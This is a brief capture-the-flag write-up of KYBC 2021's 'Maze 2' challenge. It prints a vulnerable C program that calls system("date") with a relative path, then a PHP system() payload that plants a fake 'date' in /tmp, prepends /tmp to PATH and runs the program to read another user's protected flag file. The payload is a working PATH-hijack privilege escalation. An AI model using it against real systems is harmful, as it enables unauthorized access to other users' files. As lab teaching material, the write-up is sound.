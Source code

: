 Title: KYBC 2021 - Maze 2 Writeup
Date: 2021-03-22
Category: CTF
Tags: ctf, lfi, rce, kybc
Slug: kybc-yogosha-2021-maze-2-writeup
Author: Giulia Vergottini
Summary: Writeup for Maze 2 challenge at KYBC CTF


_In order to start this challenge it was necessary to complete the [Maze 1]({filename}/CTF/kybc-yogosha-maze1.md) first_

After catching the first flag, let's check what's in `home/ctf_user2`. There is a flag file, but this time concatenating it doesn't work since the current user (`ctf_user1`) doesn't have read permissions to it. The only other interesting thing is a file called `sysadmin.c`. Permissions are in my favor this time, so let's have a look at the content:

```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{

    printf("Hello sysadmin :) \n");
    printf("Today date : \n");
    fflush(stdout);
    setreuid(geteuid(), getuid());
    system("date");
    return 0;
}
```

That `system("date")` call looks promising, so let's try to replace it with some useful bash statement instead:

```
<?php system('echo "cat /home/ctf_user2/.52942ab6e8a6dd0bd75a9029c2b5c574_flag2.txt" > /tmp/date && chmod 777 /tmp/date && export PATH=/tmp:$PATH && /home/ctf_user2/sysadmin'); ?>
```

Check the proc file and catch the flag - success!
